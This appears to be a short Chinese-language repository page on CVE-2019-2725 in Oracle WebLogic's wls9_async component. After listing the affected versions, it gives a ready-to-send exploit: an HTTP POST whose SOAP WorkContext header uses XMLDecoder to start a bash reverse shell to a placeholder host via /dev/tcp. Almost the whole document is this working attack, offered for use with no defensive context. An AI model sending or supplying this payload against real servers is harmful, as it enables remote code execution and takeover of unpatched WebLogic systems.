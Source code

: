 # CVE-2019-2725(wls9_async组件)

受影响版本

- Oracle WebLogic Server 10.*
- Oracle WebLogic Server 12.1.3

CVE-2019-2725 exp如下

```
POST /_async/AsyncResponseService HTTP/1.1
Host: localhost:7001
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-type: text/xml
Connection: close
Content-Length: 853

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing"
xmlns:asy="http://www.bea.com/async/AsyncResponseService"> <soapenv:Header>
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1"> 
<string>-c</string>
</void>
<void index="2">
<string>bash -i >& /dev/tcp/xxx/xxx 0>&1</string>
</void>
</array>
<void method="start"/> </void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body>
</soapenv:Envelope>
```

